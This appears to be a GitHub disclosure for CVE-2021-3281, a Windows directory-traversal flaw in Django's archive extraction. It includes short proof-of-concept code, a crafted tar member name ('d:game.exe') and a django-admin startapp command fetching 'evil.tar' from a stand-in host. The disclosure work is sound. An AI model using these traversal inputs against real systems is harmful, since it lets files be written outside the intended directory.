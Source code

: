 # CVE-2021-3281

There is a Directory Traversal vulnerability in django.utils.archive.py, lineno:171, in Class TarArchive.

The function call os.path.join(to_path, name) didn't check the param "name",if someone use this util on windows platform,there'll be a Directory Traversal risk, the POC is:

```
from django.utils import archive
archive.extract('test.tar','.')
The test.tar include file named "d:game.exe",and the poc will create a file named "game.exe" in D://game.exe rather than "."
It looks like the Django core didn't use this util,but I still think it's a risk,maybe someone will use this util in webapp to archive somethings.``and there is another scene:``"djangoadmin startapp --template" command will use archive.py,see in https://docs.djangoproject.com/en/3.1/ref/django-admin/#s-startapp. POC is:

django-admin.exe startapp vulapp --template="C:/my_templates/test.tar"
It'll create a file named "game.exe" in D://game.exe rather than "vulapp/", It also accept URLs like "django-admin.exe startapp vulapp --template=https://xxx.com/evil.tar"
```

### POC

```python
from django.utils import archive
archive.extract('test.tar','.')
```

There is same problem in Python/Lib/tarfile.py:

```python
#Lib/tarfile.py:
import tarfile
tar=tarfile.open('test.tar','r')
tar.extractall('.')
tar.close()
```

and the doc gives a warning ,see https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall

### Link

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3281

https://www.djangoproject.com/weblog/2021/feb/01/security-releases/